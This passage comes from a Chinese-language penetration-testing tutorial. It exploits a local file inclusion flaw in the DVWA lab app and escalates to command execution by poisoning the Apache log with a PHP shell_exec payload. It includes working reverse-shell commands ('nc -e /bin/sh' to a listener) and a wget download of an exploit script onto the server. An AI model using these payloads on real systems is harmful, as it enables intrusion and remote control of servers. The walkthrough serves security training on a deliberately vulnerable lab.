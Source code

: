 如上所述，`include()`函数包括`$file`变量的任何值。让我们尝试利用此漏洞，通过访问以下 URL 来读取我们可能无法访问的任何系统文件，例如`/etc/passwd`：`http://192.168.1.102/dvwa/vulnerabilities/fi/?page=/etc/passwd`

![](assets/d2e9ffdb-422e-405e-bc5a-32de76e5524d.png)

现在让我们进一步提升攻击，并尝试从 LFI 漏洞中获取一个外壳。让我们使用`Netcat`毒害日志文件，以便从服务器获取外壳。

应该注意的是，我们不应该试图通过 URL 毒害日志文件。这样做会将我们的有效负载编码为 URL 编码，使攻击毫无用处。

让我们首先尝试查看 Apache 日志文件的内容，并将其加载到浏览器窗口中，URL 位于：`http://192.168.1.102/dvwa/vulnerabilities/fi/?page=/var/log/apache2/access.log`：

![](assets/7bb7967c-dc92-41d6-b24c-c8f020643e36.png)

从前面的屏幕截图可以看出，日志文件的内容显示在页面上。现在，让我们继续使用`netcat`对日志文件进行毒害。首先，按如下方式启动 Netcat:`nc 192.168.1.102 80`。启动后，向服务器发送以下命令：`http://192.168.1.102/dvwa?id=<?php echo shell_exec($_GET['cmd']);?>`

![](assets/d32a907e-459e-4a88-b7a9-14f67b5ce1d3.png)

答对 了我们现在已对日志文件下毒。现在让我们试着发出一个命令，比如`ifconfig`，看看它是否会被执行。我们将浏览的 URL 如下：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=ifconfig`。

注意`cmd`参数。我们正在发送`ifconfig`命令，该命令将由以下代码行调用：

`<?php echo shell_exec($_GET['cmd']);?>, translating to <?php echo shell_exec(ifconfig)?>`

以下屏幕截图中突出显示的区域显示我们的命令已成功执行：

![](assets/9735f03d-5ff3-45bc-9ccc-a0611ebbab1a.png)

现在，让我们尝试从相同的`cmd`参数获取一个反向 shell。我们将使用`netcat`获得反向外壳。如果服务器上没有安装 netcat，我们也可以使用 Python 来获取 shell。让我们看看两者都在起作用。

# 使用 Netcat 的反向 shell

本例中的 URL 和命令如下：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=nc -e /bin/sh 192.168.1.102 4444`。

我们还需要设置一个`netcat`侦听器，用于侦听端口`4444`上的传入连接。让我们通过在不同的终端上执行`nc -nlvp 4444`命令来实现这一点。现在，浏览 URL 并查看是否获得 shell：

![](assets/6cb31672-8088-4619-8644-f3f2fd021296.png)

浏览此 URL 后，让我们尝试查看生成的`netcat`侦听器，看看是否获得 shell：

![](assets/ac74a96b-fa99-40f3-b85e-5b63cc020431.png)

可以验证的是，我们得到了一个低特权的 shell，`www-data`。

# 用 Python 反转 shell

现在，假设服务器上没有安装 Netcat。我们将使用 Python 获得 shell。由于底层服务器是基于 Linux 的，因此默认情况下，会在其上安装 Python。因此，我们将修改我们的利用命令，如下所示：

`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=wget http://192.168.1.102/exp.py -O /tmp/exp.py`

